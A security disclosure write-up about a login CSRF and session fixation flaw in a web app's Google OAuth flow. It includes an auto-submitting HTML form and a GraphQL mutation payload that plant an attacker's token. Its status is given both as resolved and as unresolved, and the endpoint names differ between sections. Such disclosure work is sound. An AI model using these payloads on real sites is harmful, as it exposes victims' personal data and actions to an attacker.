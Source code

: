# 🛂 Google OAuth CSRF – Session Fixation

**Severity:** Medium  
**Status:** Resolved  
**Test Type:** OAuth flow tampering & CSRF  
**Bug Type:** CSRF + Session Fixation via Google Social Login

---

## 🧠 Summary

The app's Google authentication flow was vulnerable to a **CSRF attack**, allowing an attacker to force-login a victim using a an attacker's social auth token.

By tricking the victim into submitting a crafted form (CSRF) containing a valid `token` and `clientState`, the attacker could implant their session into the victim’s browser. This was possible due to improper validation of OAuth tokens and absence of CSRF protections in both:

- The `POST` request after Google redirects with the OAuth token
- The subsequent GraphQL mutation handling the token exchange

---

## 🚨 Exploited Endpoints

1. **`/authentication`**
2. **GraphQL Mutation:** `AuthenticationToken`

---

## 💥 Exploitation Flow

1. Attacker obtains their own valid Google OAuth token (`token`) by starting the login process.

2. Attacker crafts a malicious HTML form:

```
<form action="https://target.com/authorization" method="POST">
  <input type="hidden" name="token" value="ATTACKER_TOKEN">
  <input type="hidden" name="clientState" value="value">
</form>
<script>
  document.forms[0].submit();
</script>
```

3. Victim visits the attacker-controlled site. Their browser sends the attacker’s token to the backend.

4. The backend accepts the token and logs the victim in under the attacker’s session — or processes their actions under attacker identity.

5. The same exploit could be done via GraphQL mutation using:

```
{
  "operationName": "AuthenticationToken",
  "variables": {
    "input": {
      "AuthenticationToken": "ATTACKER_TOKEN",
    }
  }
}
```

## 🔥 Impact
- Session Fixation via third-party auth (Google)
- Login CSRF with full account access via OAuth
- Victim’s PII (full name, email) sent to attacker’s account
- Any action taken post-login (e.g., checkout) stored under attacker session

---

🧩 Disclosure Timeline
- Reported: Feb 2025
- Fixed: Unresolved
- Reports: 2 as the same issue affected the main app and the api


